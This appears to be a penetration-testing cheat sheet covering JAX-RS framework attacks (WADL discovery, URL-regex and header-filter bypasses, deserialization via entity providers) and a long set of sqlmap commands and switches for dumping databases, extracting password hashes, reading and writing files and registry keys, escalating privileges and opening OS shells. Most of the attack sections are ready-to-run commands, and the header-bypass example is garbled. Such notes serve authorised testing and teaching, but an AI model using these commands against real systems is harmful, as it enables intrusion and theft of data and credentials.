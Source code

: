 ```yaml
---
title: Framework Attacks
category: Web Application
order: 110
---
```



> **JAX-RS** 

**Find the web application description language**

WADL is available via the following:
 * /applicaiton.wadl relative URI for JAX-RS and Jersey.  OR by sending OPTIONS request with applicaiton/vnd.sun.wadl+xml in Accept header
*  /application.xml relative URI for RESTEasy
* Apache CXF: _wadl=true parameter to URL

**URL matching ambiguites from regex:**
Example:
URI Patterns
/rest/{name}/show/{id:\\d+} is restricted
/rest/echo/{name:.+} is public

Request
/rest/echo/show/12345 accesses the restricted method


Bypass blacklist filters for HTTP headers:
AccptHTapplication/jasonCRX-USER-ID: 67890
JAX-RS uses the above string as two headers


Selection confusion attack:
@consumes defines the allowed content types
If resource method lacks @Consumes annotation or is too permissive (e.g., */*, application/*)
There is entity provider in CLASSPATH where isReadable method always (or mostly) returns True.

Useful entity providers:

Entity Provider | Media Type | Selection conditions | Weakness | CVE
----------------|------------|----------------------|----------|----
SerializableProvider (RESTEasy) | application/x-java-serialized-object | Entity parameter is serializable | Deser of Untrusted data | CVE-2016-7050

> **SQLMap Command**

{% highlight bash %}
#Crawl the site looking for vulnerable fields
sqlmap.py -u http://192.168.1.2 --crawl=1

#Use a request from burp or zap (raw request or burp log)
sqlmap.py -u http://site/file.php?variable?name=vName --cookie="cookie" --proxy http://127.0.0.1:8081   --batch
sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 

#Count Rows
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --count -D sqli -T Customers

#Shell
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --os-shell

#Dump Tables
sqlmap.py -I rawrequest2.raw --tables
sqlmap.py -l rawrequest2.raw --dump -D wordpress -T wp_users

#Advanced Usage
sqlmap -l /tmp/burp.log --scope="site.org" --dbms=mssql --os=windows --prefix="')" --suffix=" AND ('a'='a" --string="found --technique=BT --regex="User.+found" --level=5 --risk=3 --skip-waf --proxy=PROXY --flush-session

#Advanced Usage2 
sqlmap -u http://url.com/username.aspx --technique=B --data="username=rturner" --string="not available" --flush-session
{% endhighlight %}

> **Riding Sessions**
*Note: This can have a performance impact*

**ZAP**
1. Click enable session tracking cookies

**Burp**
1. Click Options tab
2. Click Sessions sub-tab
3. Click Use cookies from Burps' cookie jar - Proxy, Spider, and Scanner

> **SQL Map Switches**

**Common switches:**

Discover SQL injection | <code> -u </code> 
Spider the site looking for injection points | <code> --crawl </code> 
Target forms for injection | <code> --forms </code>
Tell sqlmap the database | <code> --dbms </code> 
Capture HTTP Request or proxy log as starting point | <code> -r/-l </code> 
Manually set cookies | <code> --cookie (e.g., --cookie 'SESSID=42') </code>
Have sqlmap go through Burp/ZAP or another proxy | <code> --proxy (e.g., --proxy http://127.0.0.1:8081) </code>
Change User Agent (Default is sqlmap/#.#) | <code> --user-agent </code> 
Proved Referer <br> *WAFs may validate this (better way is use existing request -r or via a proxy)* | <code> --referer </code> 

**DB Enumeration:**

Dump the entire DMBS database | <code> --schema </code> 
To ignore system databases | <code> --exclude-sysdbs </code> 
Select database, table or Columns <br> *Be more tactical* | <code> --dbs/--tables/--columns  </code>  <br> -D/-T can be coupled with the above switch for example, list only tables in the Customer DB (-D Customer --tables)
Dump all data && metadata (scary!) | <code> --all </code> 
Count (No data exfiltrated) | <code> --count </code> 
Steals data given constraints | <code> --dump (e.g., -D Orders -T Customers --dump) </code> 
Exfiltrates all table data | <code> --dump-all </code> 
Scour DB/table/column for a string (e.g., pass) | <code> --search </code> 

**Beyond DB exfil:**

Enumerate DB user accounts | <code> --users </code> 
Show DB user account hashes | <code> --passwords </code>
Download files to attack the system | <code> --file-read </code> 
Upload files to the DB system | <code> --file-write </code>
Read/Write Windows registry keys | <code> --reg-read/--reg-write </code> 
Add/Delete Windows registry keys | <code> --reg-add/--reg-del </code> 

**Post Exploitation:**

Escalate Priv | <code> --priv-esc </code>
SQL Query | <code> --sql-query/--sql-shell </code>
OS Commands | <code> --os-cmd/--os-shell </code>
OS Pwn | <code> --os-pwn </code>

> **SQLMap with Burp/ZAP**

**Start SQLMap based on ZAP:**
1. Navigate to field with SQL injection (one that has no errors or SQL injection) -> right click on request -> save RAW
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 


**Start SQLMap based on Burp:**
1. Navigate to request with SQL injection (one that has no errors or SQL injection) -> right click on request -> copy to file
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081

**Run SQLMap in Zap**
1. tools -> optins -> applications -> add  -> 
* sqlmap
* navigate to sqlmap 
* as is
* -u %url% --cookie=%cookie% --batch
* capture output and note
* enabled
2. Right click on request in history -> run application -> SQLMap
3. Right click on request in history -> view note
4. Set up for each function you do frequently (e.g., tables, count, read file) 

>**Tamper Scripts**

* [SANS](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)


> **Tools**
* [SQLMap](https://github.com/sqlmapproject/sqlmap)

